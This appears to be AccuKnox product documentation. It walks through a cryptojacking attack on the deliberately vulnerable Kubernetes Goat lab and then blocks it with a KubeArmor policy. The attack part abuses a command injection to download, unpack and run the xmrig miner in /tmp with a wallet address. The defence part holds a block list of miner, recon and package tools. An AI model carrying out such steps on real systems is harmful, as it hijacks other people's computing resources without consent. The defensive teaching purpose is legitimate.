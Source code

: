 

Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
$ uname -a
```
For the health check deployment, the OS is ubuntu.

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
$ wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```
After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```

![](images/crypto-mining/goat-ls.png)

**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
$ tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```
On successful install, an output similar to below will be visible

![](images/crypto-mining/xmrig-installed.png)

**Step 3**: Try running xmrig with the below command

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Now xmrig starts to mine and here, the load becomes too high that the container gets restarted
```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check

  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true

    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig

    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon
    - execname: zgrab2
    - execname: masscan
    - execname: nmap

    # do not allow package management tools execution
    - execname: apt
    - execname: apk

    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate

  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true

  message: cryptominer detected and blocked
  severity: 10
  tags:
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.

![](images/crypto-mining/create-policy.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.

![](images/crypto-mining/save-policy.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.

![](images/crypto-mining/apply-policy.png)

**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Exit status 126 is shown as xmrig is not allowed to be executed

![](images/crypto-mining/xmrig-exit.png)

Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.

## Key Takeaways

- Most of the cryptominers deploy binaries in the ```/tmp/``` folder and execute from there - AccuKnox can prevent any executions from the ```/tmp/``` folder to protect against it.

- Time synchronization is critical for mining software and attackers use pre-installed tools such as ```ntpdate``` for date/time sync - AccuKnox can prevent the attacker’s binary from accessing them.

- Cryptominers use package management tools to install accessory tooling - AccuKnox can essentially disable the use of package managers.

- Common way to prevent any current and future crypto mining attacks would be to use KubeArmor Zero Trust policies which essentially limits any unauthorized access by network primitives, process-exec primitives, file-access primitives by any unknown binaries.